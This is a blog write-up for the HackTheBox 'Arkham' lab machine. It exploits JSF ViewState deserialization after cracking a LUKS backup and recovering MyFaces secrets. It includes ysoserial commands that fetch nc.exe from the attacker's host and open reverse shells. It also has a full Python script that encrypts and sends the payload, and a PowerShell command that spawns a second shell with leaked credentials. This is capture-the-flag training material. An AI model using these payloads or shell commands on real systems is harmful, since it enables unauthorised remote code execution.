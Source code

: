 ```yaml
---
title: "HackTheBox - WriteUp 18"
date: 2019-07-18T23:46:54+08:00
description: "HackTheBox 练手 - Arkham - Java Deserialization Vuln"
featuredImage: "https://alicdn.kmahyyg.xyz/asset_files/aether/cat_tech.webp"
categories: ["tech"]
draft: false
displayInMenu: false
displayInList: true
dropCap: false
---
```


# Arkham

Nmap Enum: 80, IIS, 135+139+445 SMB, 8080 Tomcat, 49666+49667 MSRPC

## User

Try anomymously access the SMB, use `smbclient -U anonymous --no-pass //10.10.10.130/BatShare`, found a `appserv.zip`.

Unarchive it, get `backup.img`, `file` check: `LUKS Encrypted v1[aes, xts-plain64, sha256] partition file`. Run `hashcat` with `rockyou`: 

```bash
$ dd if=backup.img of=header.luks bs=512 count=4097
$ hashcat --session rockhead1 -m 14600 -a 0 -w 3 ./header.luks /usr/share/wordlists/rockyou.txt -o luks_pwd.txt
$ cat luks_pwd.txt
batmanforever
```

Then Mount:

```bash
$ sudo cryptsetup open ./backup.img decrypted
$ sudo mount /dev/mapper/decrypted /mnt/nfs1
```

From mounted files, you could find `tomcat-stuff` with a backup file `appserv.zip` , check it, found two params: `org.apache.myfaces.INIT_SECRET`, `org.apache.myfaces.MAC_SECRET`

So we know it is running JSF (JavaEE, already deprecated now). Check port 80, get IIS 10 Default Page, might be Windows server 2016+ (In fact it's 2019).

Check port 8080, found `:8080/userSubscribe.faces`, as the config we just found in backup image, it is part of the application. All seems fine, input the form and submit, enable burp, you'll find a POST param called `javax.faces.Viewstate`, according to one of the referrence below, we know there's a deserialization RCE, review related source code and spec, we know: it is encrypted and encoded before submit. According to config, it is server-side process, so do some googlefu, found `ysoserial-modified`, use this program to generate payload:

```bash
$ java -jar ./ysoserial-modified.jar CommonsCollections5 powershell 'Invoke-WebRequest http://10.10.16.80:8080/ncat.exe -OutFile nc.exe' > output_serialized_download_nc.bin
$ java -jar ./ysoserial-modified.jar CommonsCollections5 cmd 'nc.exe 10.10.16.80 4488 -e cmd.exe' > output_serialized_revshell.bin
```

According to code review, I wrote a script to help me finish the left stuff:

```python
#!/usr/bin/env python3
# -*- encoding:utf-8 -*-
#
#  hackthebox_tool
#  Copyright (C) 2019  kmahyyg
#
#  This program is free software: you can redistribute it and/or modify
#  it under the terms of the GNU Affero General Public License as published by
#  the Free Software Foundation, either version 3 of the License, or
#  (at your option) any later version.
#
#  This program is distributed in the hope that it will be useful,
#  but WITHOUT ANY WARRANTY; without even the implied warranty of
#  MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#  GNU Affero General Public License for more details.
#
#  You should have received a copy of the GNU Affero General Public License
#  along with this program.  If not, see <http://www.gnu.org/licenses/>.

# http://myfaces.apache.org/core22/myfaces-impl-shared/apidocs/org/apache/myfaces/shared/util/StateUtils.html

# pip3 install pycryptodome requests

from Crypto.Cipher import DES as DESCipher
from Crypto.Hash import SHA1 as SHA1Sum
from Crypto.Hash import HMAC as HMACCipher
import base64
import sys
import requests

# Utility function

def print_help():
    print("\n")
    print('''
    Download ysoserial from https://github.com/pimps/ysoserial-modified , Then:

    java -jar ./ysoserial-modified.jar CommonsCollections5 powershell 'Invoke-WebRequest http://IP:PORT/ncat.exe -OutFile nc.exe' > output_serialized_download_nc.bin
    java -jar ./ysoserial-modified.jar CommonsCollections5 cmd 'nc.exe IP PORT -e cmd.exe' > output_serialized_revshell.bin

    After that, put this script in the same folder with payload , then run this script like this:

    python3 ./encrypt_payload.py output_serialized_revshell.bin

    It will tell you result.
    ''')

def pad(plain_bytes):
    """
    func to pad cleartext to be multiples of 8-byte blocks.
    If you want to encrypt a text message that is not multiples of 8-byte blocks,
    the text message must be padded with additional bytes to make the text message to be multiples of 8-byte blocks.
    """
    number_of_bytes_to_pad = INIT_BS - len(plain_bytes) % INIT_BS
    ascii_string = chr(number_of_bytes_to_pad).encode()
    padding_byte = number_of_bytes_to_pad * ascii_string
    padded_plain_text =  plain_bytes + padding_byte
    return padded_plain_text

# Check user input validity

try:
    if not isinstance(sys.argv[1],str):
        print("Payload not exist.")
        print_help()
        sys.exit(1)
except:
    print("Payload not exist.")
    print_help()
    sys.exit(1)


PAYLOAD_BINARY = sys.argv[1]

# Constant Variable according to Config

INIT_SECRET = base64.b64decode(b"SnNGOTg3Ni0=")
INIT_MODE = DESCipher.MODE_ECB
INIT_BS = DESCipher.block_size
MAC_SECRET = base64.b64decode(b"SnNGOTg3Ni0=")
MYFACES_CHARSET = "iso-8859-1"

# Load the payload in

bindata = open(PAYLOAD_BINARY, 'rb').read()

# Encrypt using DES-ECB-PKCS5

engine1 = DESCipher.new(INIT_SECRET, INIT_MODE)
pt1 = pad(bindata)
enc1 = engine1.encrypt(pt1)

# Sign with HMAC-SHA1

engine2 = HMACCipher.new(MAC_SECRET, enc1, SHA1Sum)
enc2 = engine2.digest()

# Final Result

finalr1 = base64.b64encode(enc1 + enc2)

# HTTP POST Request - Data preparation

postdt = {
    "j_id_jsp_1623871077_1:email":"test1@test2.com",
    "j_id_jsp_1623871077_1:submit":"SIGN UP",
    "j_id_jsp_1623871077_1_SUBMIT":"1",
    "javax.faces.ViewState": finalr1.decode()
}

# HTTP POST Request - Send out

r = requests.post("http://10.10.10.130:8080/userSubscribe.faces", data=postdt, timeout=10)
print("HTTP Status Code: " + str(r.status_code))
print("Please check your webserver log or netcat to check result.")
```

Then you get the reverse shell after execute the script.

User owned.

## Root

Grab your powershell, Check System Info using `Get-ComputerInfo`, Ouch: Windows Server 2019 Standard, so which means you don't need to try about any exploit here. Just go ahead, and find creds hidden in somewhere.

Go to `downloads` of `alfred` user, found another `backup.zip`, get it downloaded, unarchive. `file` check, found an `ost` file: Microsoft Outlook Personal Folder Archive.

Then `readpst ./alfred-otlk.pst -S -teajc ` extract it, `draft/1-image-001.png`, find a screenshot of password `batman:Zx^#QZX+T!123` and `net` command (very useful).

Then issue a powershell to get another shell:

```powershell
> $username = "$env:COMPUTERNAME\batman"
> $password = "Zx^#QZX+T!123"
> $securePassword = ConvertTo-SecureString $password -AsPlainText -Force
> $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
> Invoke-Command -Credential $credential -ComputerName arkham -Command { cmd /k C:\tomcat\apache-tomcat-8.5.37\bin\nc.exe 10.10.16.80 3988 -e cmd.exe}
```

After you get another reverse shell, run `whoami /all`, you are now `batman` with local administrator permission. So you can choose to use `RunAs` verb for escalation(just like normally right click - Run as administrator).

Here, issue `net use * \\10.10.10.130\C$` to mount C:\ at Z:\, then cmd to Z:\, you'll be able to read the root flag.

(END)

# Referrence

- https://nmap.org/book/nse-scripts-list.html
- https://blog.pnb.io/2018/02/bruteforcing-linux-full-disk-encryption.html
- https://wiki.archlinux.org/index.php/Dm-crypt/Encrypting_a_non-root_file_system
- https://github.com/Synacktiv-contrib/inyourface/blob/master/README
- https://github.com/pimps/ysoserial-modified
- https://github.com/frohoff/ysoserial
- http://myfaces.apache.org/core22/myfaces-impl-shared/apidocs/org/apache/myfaces/shared/util/StateUtils.html
- https://www.alphabot.com/security/blog/2017/java/Misconfigured-JSF-ViewStates-can-lead-to-severe-RCE-vulnerabilities.html
- http://web.archive.org/web/20170708111726/https://wiki.apache.org/myfaces/Secure_Your_Application
- https://myfaces.apache.org/core22/myfaces-impl/webconfig.html
- https://github.com/apache/myfaces/blob/master/impl/src/main/java/org/apache/myfaces/application/viewstate/StateUtils.java#L237
